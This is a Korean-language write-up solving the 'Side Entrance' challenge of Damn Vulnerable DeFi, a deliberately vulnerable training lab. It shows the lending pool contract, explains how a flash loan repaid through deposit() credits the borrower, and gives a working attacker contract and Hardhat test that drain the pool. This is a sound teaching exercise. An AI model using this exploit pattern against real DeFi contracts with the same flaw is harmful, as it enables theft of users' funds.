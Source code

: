https://teberr.notion.site/Damn-Vulnerable-Defi-side-entrance-3012cfae0faa4e1190c4b2e086eef827

# 문제 소개

![문제.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4f31c32-f6af-4d9d-b0ad-f637c9d522a4/%EB%AC%B8%EC%A0%9C.png)

문제 #4 - side entrance

누구나 입금하고 출금할 수 있는 간단한 대출 풀이 있습니다. 현재 이 풀에는 1000개의 이더가 있고 홍보를 위해서 이 이더를 바탕으로 공짜로 대출 서비스를 제공해주고 있습니다.

우리는 이 대출 풀에서 이더를 전부 탈취해야 합니다.

# 코드 분석 및 공격 설계

## SideEntranceLenderPool.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
```

SideEntranceLenderPool 컨트랙트는 다음과 같은 함수들로 구성되어 있다.

1. deposit 함수
2. withdraw 함수
3. flashLoan 함수

```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
```

deposit 함수는 balances에 deposit 함수를 호출하여 이더를 보낸 msg.sender 와 보낸 이더의 양 msg.value를 매핑시킨다.

```solidity
    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }
```

withdraw 함수는 withdraw 함수를 호출한 msg.sender에 매핑된 자산을 가져온 뒤 0으로 만들고 가져온 만큼 msg.sender에게 전송한다. 즉 입금되어있던 모든 자산을 전부 출금해준다. 

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
```

flashLoan함수는 다음과 같이 이루어진다.

1. 이 컨트랙트에 있는 이더를 balanceBefore에 저장
2. 이 컨트랙트에 있는 이더가 대출할 양 amount보다 많거나 같아야 한다.
3. IFlashLoanEtherReceiver의 인터페이스로 구현된 execute함수를 실행할 때 msg.sender에게 amount만큼 이더를 보내며 실행한다. 
4. 이 컨트랙트의 이더가 빌려주기전보다 많거나 같아야 한다. 

msg.sender는 이더를 받으며 execute 함수가 실행이 된다. 이 execute 함수에서 msg.sender에서 대출한 이더를 바탕으로 대출풀에 전부 deposit을 한다면 대출 풀에서 balances 에 매핑되어 있는 msg.sender의 자산은 대출받은 만큼 늘어나있게 된다. 

또한 컨트랙트에 이더가 입금이 된것이기 때문에 컨트랙트의 자산이 balanceBefore보다 크거나 같은 조건도 만족하게 된다. 

그럼 이를 만족하는 SideEntranceLenderPoolSol.sol컨트랙트를 작성하자 

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";
interface ISideEntranceLenderPool{
    function deposit() external payable ;
    function withdraw() external ;
    function flashLoan(uint256 amount) external ;
}
contract SideEntranceLenderPoolsol{
    ISideEntranceLenderPool target;
    address payable attacker;
    constructor(address _target,address _attacker){
        target=ISideEntranceLenderPool(_target);
        attacker=payable(_attacker);
    } 
    function execute() public payable{
        target.deposit{value:msg.value}();
    }
    function attack(uint256 amount)public{
        target.withdraw();
        attacker.call{value:amount}("");
    }
    function flashLoan(uint256 amount)public{
        target.flashLoan(amount);
    }
    receive()payable external{}
}
```

1. execute 함수가 실행되면 대출 풀에 입금을 해야한다.
2. 공격은 입금했던 금액(사실은 대출 풀의 이더였지만)을 전부 출금하고 attacker 공격자의 주소로 전부 전송한다.
3. flashLoan을 실행한다. 이는 대출 풀에서 내 컨트랙트의 execute 함수를 실행하는 결과로 이어진다.

작성한 컨트랙트를 이용하여 공격을 진행하자.

# 공격

```tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Side entrance', function () {

    let deployer, attacker;

    const ETHER_IN_POOL = ethers.utils.parseEther('1000');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();

        const SideEntranceLenderPoolFactory = await ethers.getContractFactory('SideEntranceLenderPool', deployer);
        this.pool = await SideEntranceLenderPoolFactory.deploy();
        
        await this.pool.deposit({ value: ETHER_IN_POOL });

        this.attackerInitialEthBalance = await ethers.provider.getBalance(attacker.address);

        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.equal(ETHER_IN_POOL);
    });

		it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.be.equal('0');
        
        // Not checking exactly how much is the final balance of the attacker,
        // because it'll depend on how much gas the attacker spends in the attack
        // If there were no gas costs, it would be balance before attack + ETHER_IN_POOL
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.be.gt(this.attackerInitialEthBalance);
    });
});
```

공격 코드는 내가 만든 컨트랙트를 배포 후 flashLoan과 attack을 순차적으로 실행해 주면 된다. 

```tsx
    it('Exploit', async function () {
        const SolutionPoolFactory = await ethers.getContractFactory('SideEntranceLenderPoolsol',attacker);
        this.sol = await SolutionPoolFactory.deploy(this.pool.address,attacker.address);

        await this.sol.connect(attacker).flashLoan(ETHER_IN_POOL);
        await this.sol.connect(attacker).attack(ETHER_IN_POOL);
    });
```

그렇게 되면 내 컨트랙트는 대출 풀의 flashLaon을 실행하게 되고 이를 통해 내 컨트랙트의 execute 함수가 실행되며 대출 받은 이더 양(ETHER_IN_POOl)만큼 대출풀에 deposit을 하게 된다.

그리고 나서 attack을 통해 전액 출금 후 attacker의 주소로 출금 한 양 (ETHER_IN_POOL)만큼 전송하여 결과적으로 attacker가 대출 풀의 이더를 전부 탈취하게 된다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1d6d00c0-8389-4f2f-aafa-b3d5490c359e/%EC%84%B1%EA%B3%B5.png)

npm run side-entrance 를 통해 공격이 성공했는지 테스트 결과를 확인해 보면 공격이 정상적으로 성공했음을 확인할 수 있다.

